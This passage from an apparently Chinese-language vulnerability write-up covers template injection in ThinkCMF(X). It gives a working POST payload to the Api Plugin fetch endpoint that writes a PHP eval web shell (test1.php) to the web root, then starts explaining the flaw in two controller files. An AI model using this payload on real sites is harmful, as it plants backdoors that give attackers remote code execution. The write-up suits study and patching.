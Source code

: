 ![image](img/dea9308ad7ebecad3466eb4f50ebd8a5.png)

#### 0x02.2 Api 类模版注入 1

```
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php> 
```

同上一样，会在跟目录生成 马子 test1.php

#### 0x02.3 漏洞原理

路径:ThinkCMFX\application\Comment\Controller\WidgetController.class.php 路径:ThinkCMFX\application\Api\Controller\PluginController.class.php

两处的漏洞原理都是一样的，所以我就选一处进行讲解了 路径:application\Comment\Controller\WidgetController.class.php 方法：public function fetch()
